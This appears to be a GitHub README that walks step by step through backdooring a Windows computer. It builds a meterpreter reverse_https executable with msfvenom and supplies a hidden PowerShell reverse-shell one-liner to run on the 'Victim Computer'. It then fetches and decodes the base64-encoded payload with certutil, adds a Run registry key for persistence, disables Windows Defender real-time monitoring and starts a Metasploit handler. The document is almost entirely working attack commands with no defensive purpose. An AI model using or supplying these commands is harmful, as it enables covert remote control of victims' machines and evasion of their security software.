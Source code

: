 
## Create Backdoor
```
msfvenom -p windows/meterpreter/reverse_https lhost=192.x.x.x lport=1337  -f exe -o backdoor.exe
```
## Encode Backdoor
Go to [Here](https://www.base64encode.org) to Encode Backdoor

## Netcat
``` bash
nc -lvnp 1337
```
## Victim
Run this in Victim Computer
``` powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('192.x.x.x', 1337);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
## Make Directory
Make Directory to save backdoor
``` powershell
mkdir C:\Users\[User_name]\AppData\LocalLow\Temp
```
## Use python to make server

``` powershell 
python -m http.server
```
## Download String base64 backdoor
Download String From Your Server Python
``` powershell
(New-Object System.Net.WebClient).DownloadString("http://192.x.x.x:8000/file-encode.txt") > file.txt
```
## Ddecode Base64

``` powershell
certutil -decode C:\Users\[User Name]\AppData\LocalLow\Temp\file-encode.txt c:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Create Regkey
Create a Regkey to execute Backdoor when start Windows 
``` powershell
New-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name "Sys" -Value "C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe" -PropertyType "String"
```
## Msfconsole
Run msfconsole

- Use exploit handler
``` msfconsole
use exploit/multi/handler
``` 
- Set Payload
``` msfconsole
set payload windows/meterpreter/reverse_https
```
- Set lhost
``` msfconsole
set lhost 192.x.x.x 
```
- Set lport
``` msfconsole
set lport 1337
```
- Set ExitOnSession
```
set ExitOnSession false
```
- Exploit
``` msfconsole
exploit -j
```
## Disable Windows Defender
``` powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
## Unlock Backdoor
```powershell
Unblock-File -Path C:\Users\[User Name]\AppData\LocalLow\Temp\decode.exe
```
## Execute Backdoor
```powershell
./decode.exe
```
